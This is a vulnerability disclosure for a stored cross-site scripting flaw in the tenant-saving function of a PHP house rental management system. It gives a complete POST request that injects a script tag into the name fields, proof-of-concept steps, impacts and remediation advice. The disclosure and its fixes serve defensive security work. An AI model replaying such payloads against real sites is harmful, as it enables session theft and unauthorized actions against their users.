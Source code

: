 ### **Best House Rental Management System Stored Cross-Site Scripting (XSS) Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP Stored Cross-Site Scripting (XSS) Vulnerability  
- **Exploit Author**: Yasser Alshammari
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

---

### **Description**

The `save_tenant` function in `admin_class.php` of the **Best House Rental Management System Project in PHP v1.0** is vulnerable to a stored Cross-Site Scripting (XSS) attack. This occurs because the `firstname` and `lastname` parameters are not properly sanitized, allowing an attacker to inject malicious JavaScript into the application. This script is executed when the tenants' page (`/rental/index.php?page=tenants`) is accessed by any user.

---

### **Payload Used**

```sh
POST /rental/ajax.php?action=save_tenant HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3178982332774785074212688258
Content-Length: 1032
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/rental/index.php?page=tenants
Cookie: PHPSESSID=dknlqepm8oojar1k1bfeioo8gu
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="id"


-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="lastname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="firstname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="middlename"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="contact"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="house_id"

12
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="date_in"

12
-----------------------------3178982332774785074212688258--
```

### **Proof of Concept**

Submit the above POST request to the `/rental/ajax.php?action=save_tenant` endpoint. Open the tenants page at `/rental/index.php?page=tenants`. Observe that the injected JavaScript `<script>alert('XSS')</script>` executes, demonstrating the XSS vulnerability.

### **Impact**
An attacker can inject arbitrary JavaScript into the application, which will execute whenever the affected page is accessed
This can lead to:
* Theft of session cookies or user credentials.
* Unauthorized actions on behalf of users.
* Malicious redirection or delivery of malicious content.

### **Remediation**

### Remediation for Stored XSS

1. **Input Validation and Sanitization**:  
   Validate and sanitize all user inputs on the server side to ensure they do not include malicious scripts or HTML content. Use a whitelist approach and strip any unnecessary tags or attributes.

2. **Output Encoding**:  
   Always encode dynamic content before rendering it in the browser, using context-specific encoding methods (e.g., HTML encoding for page content, JavaScript escaping for scripts).

3. **Content Security Policy (CSP)**:  
   Implement a Content Security Policy to restrict the execution of unauthorized scripts and reduce the impact of potential XSS attacks. For example:
```sh
   Content-Security-Policy: default-src 'self'; script-src 'self';
```
